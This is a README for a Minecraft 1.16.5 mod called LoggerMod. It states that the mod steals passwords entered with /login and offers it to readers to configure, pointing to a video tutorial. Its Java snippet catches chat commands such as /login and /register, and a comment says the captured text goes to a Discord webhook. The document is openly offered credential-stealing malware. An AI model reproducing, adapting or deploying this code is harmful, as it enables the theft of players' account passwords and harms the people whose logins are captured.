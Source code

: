 # 🔌 LoggerMod
This mod on 1.16.5 steals the entered passwords (Entered via /login)


# ⚡ How to configure?
You can easily change the config for yourself  
Tutorial: [Click](https://www.youtube.com/watch?v=RxuuHBnjgj0) (in Russian)

# ❓ How it Works?
```java
    @SubscribeEvent
    public void ChatEvent(ClientChatEvent e) {
        String msg = e.getMessage();
        String[] sentences = e.getMessage().split(" ");
        if ((msg.startsWith("/l") || msg.startsWith("/login") || msg.startsWith("/reg") || msg.startsWith("/register")) && sentences.length > 1) {
            // Sending to your discord server use Webhook
        }
    }

``` 
